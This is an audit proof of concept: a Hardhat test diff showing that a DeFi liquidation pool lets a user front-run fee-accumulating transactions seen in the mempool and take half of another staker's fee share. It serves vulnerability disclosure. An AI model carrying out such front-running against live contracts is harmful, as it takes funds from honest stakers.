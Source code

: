 ## PoC
Patch the following diff inside `test/liquidationPool.js` and run via `npx hardhat test --grep 'allows front-running & fee collection'`. The test will pass all assertions.

```diff
diff --git a/test/liquidationPool.js b/test/liquidationPool_.js
index 8dd8580..ce984e2 100644
--- a/test/liquidationPool.js
+++ b/test/liquidationPool_.js
@@ -224,6 +224,44 @@ describe('LiquidationPool', async () => {
       expect(_position.EUROs).to.equal(distributedFees2);
     });
 
+    it('allows front-running & fee collection', async () => {
+      // some setup
+      const tstStake = ethers.utils.parseEther('100');
+      await TST.mint(user1.address, tstStake);
+      await TST.approve(LiquidationPool.address, tstStake);
+      await TST.mint(user2.address, tstStake);
+      await TST.connect(user2).approve(LiquidationPool.address, tstStake);
+      
+      // user1 stakes
+      await LiquidationPool.connect(user1).increasePosition(tstStake, 0);
+      await fastForward(DAY * 2);
+      
+      // *********** FRONT - RUNNING *******************
+      // @audit : user2 front-runs any `FEE-ACCUMULATING-ACTION` he sees in the mempool
+      await LiquidationPool.connect(user2).increasePosition(tstStake, 0);
+      // some fee gets accumulated
+      const fees = ethers.utils.parseEther('20');
+      await EUROs.mint(LiquidationPoolManager.address, fees);
+      // ************************************************
+
+      // @audit : user1 attempts to decrease his position and claim 50% of fee but fails
+      const user1_attempt1 = LiquidationPool.connect(user1).decreasePosition(tstStake, fees.div(2));
+      await expect(user1_attempt1).to.be.revertedWith("invalid-decr-amount");
+      // he can successfully claim 25% EUROs
+      const user1_attempt2 = await LiquidationPool.connect(user1).decreasePosition(tstStake, fees.div(4));
+      await expect(user1_attempt2).not.to.be.reverted;
+      
+      await fastForward(DAY);
+      // @audit : user2 claims his 25% EUROs
+      const user2_attempt = await LiquidationPool.connect(user2).decreasePosition(tstStake, fees.div(4));
+      await expect(user2_attempt).not.to.be.reverted;
+
+      expect(await TST.balanceOf(user1.address)).to.equal(tstStake, "user1 TST balance");
+      expect(await EUROs.balanceOf(user1.address)).to.equal(fees.div(4), "user1 EUROs balance");
+      expect(await TST.balanceOf(user2.address)).to.equal(tstStake, "user2 TST balance");
+      expect(await EUROs.balanceOf(user2.address)).to.equal(fees.div(4), "user2 EUROs balance");
+    });
+
     it('does not allow decreasing beyond position value, even with assets in pool', async () => {
       const tstStake1 = ethers.utils.parseEther('10000');
       await TST.mint(user1.address, tstStake1);
```
